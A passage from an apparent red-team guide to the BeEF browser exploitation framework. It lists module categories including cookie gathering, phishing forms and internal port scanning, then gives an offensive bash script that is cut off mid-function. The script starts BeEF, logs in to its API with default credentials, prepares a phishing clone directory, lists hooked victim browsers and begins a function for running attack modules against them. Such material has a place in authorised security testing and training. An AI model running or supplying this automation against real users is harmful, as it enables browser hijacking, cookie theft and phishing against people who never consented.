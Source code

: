 ### Command Modules

BeEF includes numerous modules for exploiting hooked browsers, organized into categories:

1. **Information Gathering**: Browser details, cookies, visited sites
2. **Social Engineering**: Fake notifications, popups, phishing forms
3. **Network**: Port scanning, fingerprinting internal services
4. **Persistence**: Keeping the hook active, even after navigation
5. **Exploitation**: Browser exploits, local vulnerability testing

### BeEF Automation Script

This script automates common BeEF tasks for red team operations:

```bash
#!/bin/bash
# beef_automation.sh - Automate common BeEF tasks

# Configuration
BEEF_USER="beef"
BEEF_PASS="beef"
BEEF_URL="http://127.0.0.1:3000"
HOOK_URL="$BEEF_URL/hook.js"
REPORT_DIR="beef_reports"
CLONE_DIR="/var/www/html/phishing"
TARGETS_FILE="targets.txt"

# Create directories
mkdir -p "$REPORT_DIR"
mkdir -p "$CLONE_DIR"

# Start BeEF if not already running
if ! pgrep -f "beef" > /dev/null; then
    echo "Starting BeEF..."
    cd /usr/share/beef-xss/ && ./beef > /dev/null 2>&1 &
    sleep 10  # Give BeEF time to start
fi

# Function to authenticate with BeEF API
get_token() {
    TOKEN=$(curl -s -X POST "$BEEF_URL/api/admin/login" \
        -H "Content-Type: application/json" \
        -d "{\"username\":\"$BEEF_USER\",\"password\":\"$BEEF_PASS\"}" | \
        jq -r '.token')
    echo $TOKEN
}

# Authenticate
TOKEN=$(get_token)
if [ -z "$TOKEN" ]; then
    echo "Authentication failed. Check BeEF credentials."
    exit 1
fi
echo "Authenticated with BeEF API. Token: $TOKEN"

# Function to get online browsers
get_hooked_browsers() {
    curl -s -X GET "$BEEF_URL/api/hooks?token=$TOKEN" | jq .
}

# Function to execute a module on a browser
execute_module() {
    local session="$1"
    local module_id="$2"
    local options="$3"
```